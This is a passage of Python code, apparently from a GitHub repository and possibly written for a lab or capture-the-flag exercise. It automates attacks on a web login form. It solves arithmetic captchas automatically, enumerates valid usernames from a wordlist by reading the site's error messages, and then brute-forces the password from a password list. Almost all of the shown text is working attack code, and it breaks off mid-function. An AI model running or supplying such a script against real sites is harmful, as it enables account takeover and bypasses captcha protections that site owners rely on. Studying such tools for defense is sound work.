 ```python
        if captcha_Str:
            captcha_Str = captcha_Str.group()     # To get the intended matching string like (123 + 456 = ?) 
            print(captcha_Str)
            captcha_Str = sub(r' = \?', '', captcha_Str)      # Replace this section with nothing to remove ( = ?)
            print(captcha_Str)
            numbers = split(r'\s*[-+*]\s*', captcha_Str)   # Split the captcha string based on the operation type (+,-,or *)

            # print(numbers) ==>  ['123', '456']     

            num1 = int(numbers[0])
            num2 = int(numbers[1])
            if '+' in captcha_Str:
                captcha_code = num1 + num2
                print(captcha_code)
                return captcha_code
            elif '-' in captcha_Str:
                captcha_code = num1 - num2
                print(captcha_code)
                return captcha_code
            elif '*' in captcha_Str:
                captcha_code = num1 * num2
                print(captcha_code)
                return captcha_code
        else:
            print("No captcha found.")


def username_enum(url,usernames_list):
    with open(f'{usernames_list}','r') as file:   # Access the path of usernames list.
        for username in file:
            username = username.strip()
            captcha_code = get_captcha_code(url)
            data = {"username": username, "password": "sec0gh", "captcha": captcha_code}
            response = requests.post(url, data=data)    
            
            if f"The user &#39;{username}&#39; does not exist" in response.text:
                print(colored("Invalid user.",'red'))
            else:
                print(colored("Valid user is found: "+ username,"green")) 
                return username
                
                
def password_enum(username,url,passwords_list):
    with open(f'{passwords_list}','r') as file:    # Access the path of passwords list.
        for password in file:
            password = password.strip()
            captcha_code = get_captcha_code(url)
            data = {"username": username, "password": password, "captcha": captcha_code}
            response = requests.post(url, data=data) 
            
            if f"Invalid password for user &#39;{username}&#39;" in response.text:
                print(colored("Invalid password.",'red'))
            else:
                print(colored("Valid password is found: "+ password,"green")) 
                return password
    
    
def parse_args():
    example = '''
    Example:
```